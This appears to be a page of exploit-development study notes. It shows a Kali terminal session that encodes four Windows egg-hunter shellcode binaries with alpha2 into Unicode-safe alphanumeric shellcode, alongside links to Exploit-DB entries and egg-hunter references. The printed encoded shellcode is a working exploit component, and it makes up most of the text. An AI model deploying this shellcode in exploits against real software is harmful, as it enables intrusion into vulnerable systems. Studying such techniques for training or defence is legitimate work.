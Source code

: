 https://medium.com/@orhan_yildirim/egg-hunter-how-it-works-fd0eed671b80

https://www.exploit-db.com/exploits/20036

┌──(george93㉿kali)-[~/…/lazy-master/part8/temp/egghuntercodes]
└─$ ls
IsBadReadPtr_egghunter.bin  NtAccessCheckAndAuditAlarm_egghunter.bin  NtDisplayString_egghunter.bin  script.py  seh_injection_egghunter.bin
                                                                                                                                                                                                             
┌──(george93㉿kali)-[~/…/lazy-master/part8/temp/egghuntercodes]
└─$ alpha2 eax --unicode --uppercase < IsBadReadPtr_egghunter.bin 
PPYAIAIAIAIAQATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBNSYKQVSQ8KKOLOOS1ZLHPSWHLM1KK7BWKOZ0TEWP2UJL7HRWP00044TKKKFOSEYWVO2UITKOYWA
                                                                                                                                                                                                             
┌──(george93㉿kali)-[~/…/lazy-master/part8/temp/egghuntercodes]
└─$ alpha2 eax --unicode --uppercase < NtAccessCheckAndAuditAlarm_egghunter.bin 
PPYAIAIAIAIAQATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRFCQXJKOLOQ222RJM2QHXMNNOLKUPZBTZOVXRWNPNP2T4KKJ6OSEZJVORUK7KOK7A
                                                                                                                                                                                                             
┌──(george93㉿kali)-[~/…/lazy-master/part8/temp/egghuntercodes]
└─$ alpha2 eax --unicode --uppercase < NtDisplayString_egghunter.bin                                       
PPYAIAIAIAIAQATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JB36SQ8JKOLO0BPRQZ130XHMNNOLM50Z2TJOH8D7NPP02T4KKJFO45YZFOBUYWKOK7A
                                                                                                                                                                                                             
┌──(george93㉿kali)-[~/…/lazy-master/part8/temp/egghuntercodes]
└─$ alpha2 eax --unicode --uppercase < seh_injection_egghunter.bin 
PPYAIAIAIAIAQATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBZKMQR9FXT7NPNPRT0QRJKONSIKBD3YO3QZKRR9TKKKL3VOBUKWKOJGQVU1XKKOLOOSJKJMIX8ZKOKOKORJLLPYTKM4LLH1VXE3M4KXKV0XU394LP0POCWP7SA









https://code.google.com/archive/p/w32-seh-omelet-shellcode/downloads

https://www.nasm.us/pub/nasm/releasebuilds/

https://www.exploit-db.com/exploits/28474
